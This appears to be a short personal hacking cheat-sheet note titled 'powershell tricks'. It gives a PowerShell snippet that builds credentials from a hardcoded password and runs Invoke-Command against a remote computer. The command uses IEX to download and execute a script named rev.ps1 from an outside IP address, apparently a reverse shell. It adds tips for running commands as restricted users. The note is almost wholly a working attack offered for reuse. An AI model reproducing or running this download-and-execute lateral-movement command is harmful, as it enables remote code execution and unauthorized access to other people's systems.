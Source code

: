 # powershell tricks run powershell commands as another user with SecureString credential
```powershell
$pass = ConvertTo-SecureString 'password123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('.\user', $pass)
hostname
invoke-command -Computer ComputerHostname -Credential $cred -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://192.168.1.69/rev.ps1') }
```
change ComputerHostname.
`-ConfigurationName ...` parameter might be required to run commands for special restricted user permissions

# Related

- [20221003150475](/zet/20221003150475/README.md) powershell tricks run powershell commands as another user
- ~/kb/hacking/powershell/powershell-tricks.md

Tags:

    #hacking #trick #powershell 
